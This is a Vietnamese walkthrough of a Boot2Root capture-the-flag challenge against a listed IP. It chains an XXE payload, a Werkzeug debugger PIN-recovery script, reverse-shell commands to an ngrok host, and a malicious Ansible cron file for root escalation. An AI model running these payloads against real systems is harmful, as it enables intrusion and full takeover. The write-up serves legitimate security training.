<div align='center'>

# **Boot2Root: 10 years aniversity**

</div>

Mục tiêu: 103.178.230.155 (RCE được với user bình thường và leo quyền lên root).

## **Tóm tắt**

1. Dùng nmap phát hiện ra port 22 (ssh) và port 8000 (http) đang mở.
2. Ở port 8000, trang web này bị lỗ hỏng XXE khiến cho chúng ta có thể đọc được file của server.
3. Chế độ debug của trang web không được tắt đi nên kết hợp với lỗ hỏng XXE, chúng ta RCE được với user werkzeug.
4. Lợi dụng lỗ hỏng trong cấu hình cronjob, chúng ta leo quyền lên user root.

## **Reconnaissance (Thu thập thông tin)**

Như thường lệ chúng ta sẽ dùng nmap để scan port. Câu lệnh mình hay dùng là:

```bash
nmap -sC -sV -Pn -p- -o target 103.178.230.155
```

Trong đó:

- `-sC`: Scan với các script mặc định của nmap.
- `-sV`: Scan phiên bản của các service đang chạy.
- `-Pn`: Bỏ qua việc ping để kiểm tra xem có kết nối được với mục tiêu không (để hi vọng bypass firewall).
- `-o`: Lưu kết quả vào file `target`.





Nhìn vào kết quả, chúng ta thấy có 2 port đang mở là 22 (ssh) và 8000 (http). Chúng ta sẽ xuất phát từ port 8000 do nó có dịch vụ web.

## **Tìm hiểu website**

Ở kết quả nmap, web này sử dụng python 3.11.6 và thư viện Werkzeug 2.2.2. Tìm kiếm trên google về lỗ hỏng có sẵn của thư viện này thì không có 1 CVE nào thú vị nhưng đập vào mắt mình là [bài viết](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug) này (và nó thực sự hữu dụng sau này)

Giao diện website. Thoạt nhìn qua thì chỉ có 1 trang cho phép chúng ta tìm kiếm gì đó và web chỉ hiển thị lại thứ mà ta nhập vào.



Ngay lập tức mình nghĩ đến lỗ hổng [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) (cơ bản là chúng ta có thể thực thi javascript trên trình duyệt của người dùng). Test với payload `<i>XSS</i>` thì dính thật



## **Phát hiện lỗ hổng XXE**

Tuy nhiên, mục tiêu của chúng ta là RCE nên mình không quan tâm đến XSS nữa. Tiếp tục chúng ta sẽ dùng [Burp Suite](https://portswigger.net/burp) để theo dõi request và response của tính năng tìm kiếm này.



Ta thấy rằng ta sẽ gửi một POST request tới `/search` với thông tin mình nhập vào ở trong cấu trúc [XML](https://www.w3schools.com/xml/xml_whatis.asp). Và mình liên tưởng đến lỗ hổng [XXE](https://portswigger.net/web-security/xxe) (cơ bản là chúng ta có thể chèn thêm các thực thể XML vào trong XML hiện tại kể cả SYSTEM). Thử với payload `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><test>&xxe;</test>` thì xác nhận được là có tồn tại lỗ hỏng này 

Giải thích payload:

- `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`: Định nghĩa thực thể `xxe` với giá trị là nội dung của file `/etc/passwd`.
- `<test>&xxe;</test>`: Sử dụng thực thể `xxe` đã định nghĩa ở trên.



Với lỗ hỏng này, ta có khả năng đọc được hệ thống file **dưới quyền hạn của user đang chạy web server này**. 

## **Phát hiện ra website có sử dụng debug mode**

Tiếp theo, mình thử một đường dẫn phổ biến của web là [/robots.txt](https://developers.google.com/search/docs/crawling-indexing/robots/intro?hl=vi) thì thấy response khá thú vị



Tại đây ta có thêm thông tin là web này có sử dụng debug và có vẻ là thông tin về các đường dẫn:

- `admin/`: Là một form đăng nhập dành cho admin. Ta hiện tại chưa có thông tin gì về user này.

    

    Thử credential `admin:admin` thì bị lỗi và bị lộ ra nhiều thông tin liên quan đến hệ thống file do bật Debug mode. 

    

- `[name = 'index']`: Có vẻ là sử dụng param index ở đâu đó
- `search [name = 'search']`: Có thể là tính năng tìm kiếm ở trang chủ mà ta đã dùng trước đó

    
- `bug [name='bug']`: Vào đường dẫn `/bug` sẽ kích hoạt ra lỗi `TypeError`. Điều này cũng lộ ra một phần source code của web (chưa thú vị lắm tbh)

    

Tìm hiểu thêm về debug mode của thư viện [Werkzeug](https://werkzeug.palletsprojects.com/en/2.2.x/debug/). Ta thấy rằng đường dẫn `/console` sẽ mở python console và chúng ta có thể thực thi các lệnh python trên đó. Tuy nhiên, chúng ta cần phải có mã Debugger PIN mới có thể dùng đc

## **Kết hợp với lỗ hỏng XXE để tìm mã Debugger PIN. Từ đó dẫn đến RCE**

Quay trở lại với [bài viết](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug) này mà mình đã đề cập ở trên. Theo đó, chúng ta có thể tạo lại mã PIN trên nếu chúng ta biết được một số file trong hệ thống. Và nhờ lỗ hỏng XXE trên ta hoàn toàn có thể làm được điều đó.

Chúng ta cần các thông tin sau để tạo lại mã PIN:



Hãy bắt đầu bởi thông tin đơn giản:

- username: là tên của user đang chạy web server. Đó là `werkzeug` (file /etc/passwd)

    

- `str(uuid.getnode())`: Là địa chỉ MAC của máy tính ở dạng số. Tìm card mạng qua file `/proc/net/arp` và lấy địa chỉ MAC trong file `/sys/class/net/<card mạng>/address`

    

    

    Chuyển địa chỉ MAC thành số

    ```python
    >>> print(0x0242ac170003)
    2485378285571
    ```

- `get_machine_id()`: là kết hợp của file `/etc/machine-id` hoặc `/proc/sys/kernel/random/boot_id` và phần phía sau dấu `/` ở dòng đầu tiên trong file `/proc/self/cgroup`

    

    

    Note: /etc/machine-id sẽ không trả gì hết nhưng không sao cả.

    Vậy `get_machine_id()=a7cbe35e-bae7-4544-b5f3-0068171268f4967e0e0070c8f5a54905b0da508bf2979f1cd7ae33ac2c427f1b726fb29be6d9` trong trường hợp của mình.

Về 3 thông tin còn lại, bài viết chỉ nói về [Flask](https://flask.palletsprojects.com/en/3.0.x/) mà ta lại gặp phải [Django](https://www.djangoproject.com/) nên không thể áp dụng được. Tuy nhiên, biết người biết ta, trăm trận trăm thắng, mình sẽ chạy Django với Werkzeug debug mode bật lên. Sử dụng chiến thuật "print2win", mình tìm source code tạo PIN của Werkzeug và nhét mấy lệnh `print()` vào (hàm `get_pin_and_cookie_name()` trong `..../python3.11/site-packages/werkzeug/debug/__init__.py`)



Chạy server Django với debug mode bật lên, ta sẽ thấy các thông tin được hiển thị



Từ đó ta suy ra các thông tin còn lại:

- `modname`: `django.contrib.staticfiles.handlers`
- `getattr(app, "__name__", type(app).__name__)`: `StaticFilesHandler`
- `getattr(mod, "__file__", None)`: `/usr/local/lib/python3.11/site-packages/django/contrib/staticfiles/handlers.py` (suy ra từ trang web thông báo lỗi)

    

Sử dụng đoạn script sau để tạo lại mã PIN

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'werkzeug',# username
    'django.contrib.staticfiles.handlers',# modname
    'StaticFilesHandler',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.11/site-packages/django/contrib/staticfiles/handlers.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485378285571',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'a7cbe35e-bae7-4544-b5f3-0068171268f4967e0e0070c8f5a54905b0da508bf2979f1cd7ae33ac2c427f1b726fb29be6d9'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

Chạy đoạn script trên, ta sẽ có được mã PIN và đó chính là mã PIN đúng.







Ta đã RCE thành công bằng cách thực hiện lệnh os thông qua python console

Note: Lúc đầu mình không nghĩ đến hướng này do mã PIN nếu nhập sai quá nhiều lần thì sẽ bị khóa phải khởi động lại server mới reset lại trạng thái khóa. Mình đã bị khóa một lần. Tuy nhiên, một lúc sau khi mình quay lại thì nó không còn khóa nữa. Điều này có nghĩa là server sẽ tự khởi động lại sau một khoảng thời gian nào đó và cảng củng cố thêm cho cách exploit này :>

## **Thiết lập reverse shell bằng ngrok và nc**

Trước hết mình cấu hình ngrok để chạy 2 tunnel cùng một lúc (1 cái cho user thường, 1 cái cho root nếu cần thiết)

```bash
＄ ngrok config check
Valid configuration file at /home/kali/.config/ngrok/ngrok.yml
```

Chỉnh sửa file `ngrok.yml` như sau

```yaml
authtoken: ...
tunnels:
  first:
    addr: <port>
    proto: tcp
  second:
    addr: <port>
    proto: tcp
```

Chạy ngrok

```bash
＄ ngrok start --all
```



Thiết lập nc listener

```bash
＄ nc -lvnp <port>
```

Ở python console trên web, ta sẽ thực hiện lệnh sau:

```python
import os
os.popen("bash -c 'bash -i >& /dev/tcp/NGROK_HOST/NGROK_PORT 0>&1'")
```

Câu lệnh trên lấy ở https://www.revshells.com/



Ta đã có shell với user `werkzeug`



## **Nâng cấp shell**

Việc đầu tiên khi có reverse shell là sẽ tìm cách cải thiện shell cho tốt hơn, dễ sử dụng. Do máy đã có python nên mình sẽ làm như sau:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

Bấm CTRL+Z để đưa con shell về background

Ở máy attacker, ta sẽ dùng lệnh như sau. Ta sẽ quay lại shell của mục tiêu  

```bash
stty raw -echo; fg
```

Cuối cùng, chạy lệnh `export TERM=xterm` là xong. Ta có thể thao tác lên shell tiện lợi hơn :D

## **Chạy linPEAS phát hiện ra sự khác thường ở cron jobs**

Ở đây mình sẽ dùng [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) để tìm kiếm lỗ hỏng.

```bash
wget "https://github.com/carlospolop/PEASS-ng/releases/download/20231024-f6adaa47/linpeas.sh"
chmod +x linpeas.sh
./linpeas.sh
```

Kết quả cho thấy ở phần cron jobs có một file cron trong `/etc/cron.d`. Tuy nó không đỏ lè nhưng nó không phải màu xanh lá cho thấy file này ở đây không bình thường lắm đối với linux (linPEAS sẽ note màu xanh lá là những thứ bình thường trong máy Linux)



Check luôn `crontab` thấy có task của root thực thi file `reset_machine.sh` nhưng file này mình không có bất kì quyền gì





Check file `/etc/cron.d/cron`. Không hiểu sao mình không `cat` ra được nhưng file này không có trống nên mình sẽ dùng `strings` thay thế thì lại ra :)

```bash
strings /etc/cron.d/cron
```

Đây là nội dung file:



Cứ mỗi 1 phút thì user `root` sẽ chạy lệnh `/usr/local/bin/ansible-parallel /opt/automated/tasks/webapp/*.yml`

Nhờ dấu `*` nên mình có thể tạo ra file `yml` bất kì và nó sẽ được thực thi. Và nếu có cách nhét được lệnh os vào file đã tạo đó thì mình sẽ leo quyền thành công.

## **Leo quyền lên root**

Search google về `ansible shell command` thì thấy bài [docs](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html) này. Theo đó, mình sẽ tạo file `exploit.yml` với nội dung như sau:

```yaml
- hosts: localhost
  tasks:
    - name: Run command
      shell: 
        cmd: bash -c 'bash -i >& /dev/tcp/NGROK_HOST/NGROK_PORT 0>&1'
```

Tuy nhiên, cả `nano` lẫn `vi` không có trên máy nên mình đã nghĩ dùng `python` kết hợp với `echo -e` viết vào file





Thiết lập nc listener

```bash
＄ nc -lvnp <port>
```

Đợi một lúc cho cron job chạy, ta sẽ có shell với user `root`



Vậy là ta đã giải được bài Boot2Root này. Cảm ơn bạn đã đọc bài viết của mình. Hẹn gặp lại ở bài viết tiếp theo :D